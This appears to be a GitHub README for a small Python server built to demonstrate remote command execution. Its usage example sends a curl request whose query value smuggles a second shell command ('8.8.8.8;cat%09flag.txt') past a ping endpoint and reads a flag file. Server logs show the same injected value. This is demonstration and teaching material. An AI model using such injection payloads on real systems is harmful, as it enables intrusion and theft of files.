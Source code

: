 # rce-endpoint
Simple python http server to demonstrate RCE vulnerabilities.

### Run
```
lomaha@rce-endpoint % python3 rce-endpoint.py -a=127.0.0.1 -p=80 -u=/ping -c='ping -c 1'
```
### Use
#### Client side:
```
lomaha@rce-endpoint % curl -G "http://127.0.0.1:80/ping?ip=8.8.8.8;cat%09flag.txt" 
b'PING 8.8.8.8 (8.8.8.8): 56 data bytes\n64 bytes from 8.8.8.8: icmp_seq=0 ttl=111 time=7.668 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 packets received, 0.0% packet loss\nround-trip min/avg/max/stddev = 7.668/7.668/7.668/0.000 ms\nLOMAHA{cwhf85wLOMAHA4375023}'
```
#### Server side:
```
Server started http://127.0.0.1:80
127.0.0.1 - - [25/Dec/2021 20:49:42] "GET /ping?ip=8.8.8.8;cat%09flag.txt HTTP/1.1" 200 -
Path: '/ping'
Query params: 'ip'
Quer value: '8.8.8.8;cat	flag.txt'

```